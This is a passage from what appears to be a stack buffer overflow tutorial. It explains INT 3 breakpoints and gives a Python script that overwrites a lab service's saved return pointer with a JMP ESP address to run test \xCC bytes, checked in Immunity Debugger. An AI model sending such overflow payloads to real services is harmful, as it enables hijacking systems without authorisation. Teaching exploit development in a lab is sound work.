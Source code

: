 `"INT 3"` is an instruction that generates a software interrupt, causing an
attached debugger to pause execution of the process as though hitting a
breakpoint that had been set by the user.

\framebox{
  \parbox{\textwidth}{
    \textbf{Pro tip}: "INT 3" is actually how debuggers implement software
    breakpoints. The debugger quietly replaces a single byte of the original
    program code at the location of the breakpoint with "INT 3"
    ({\textbackslash}xCC) and then when the breakpoint gets hit, it swaps the
    replaced byte out with what it originally was. The more you know!
  }
}

Let's use some specific number of consecutive `"INT 3"` instructions as our
bytecode to be executed, so that if Immunity tells us the program is trying to
execute as many of them as we've specified we know we've succeeded. I'm going
to use four of them.

Our exploit evolves to become:

```{.python .numberLines}
#!/usr/bin/env python3
import socket
import struct

RHOST = "172.17.24.132"
RPORT = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

buf_totlen = 1024
offset_srp = 146

ptr_jmp_esp = 0x080414C3

buf = b""
buf += b"A"*(offset_srp - len(buf))      # padding
buf += struct.pack("<I", ptr_jmp_esp)    # SRP overwrite
buf += b"\xCC\xCC\xCC\xCC"               # ESP points here
buf += b"D"*(buf_totlen - len(buf))      # trailing padding
buf += b"\n"

s.send(buf)
```

\newpage

Restarting the process within Immunity, and firing this off, we see that we've
successfully hijacked the usual program flow and it's trying to execute the
data we sent it as code! We see our sequence of `\xCC` bytes on the stack as
well as in the disassembly, and the status bar tells us the program hit an
`"INT 3 command"`. Note that the disassembly view will show you one less `"INT
3"` than you sent it, since Immunity considers one of them as having already
been executed and scrolls right past it. If you scroll up to try to see the
already-executed `"INT 3"` then you'll see an `"\xCC"` but Immunity might not
seem to disassemble it as an actual `"INT 3"`. Disassembling backwards is hard
because x86 instructions are variable-length.
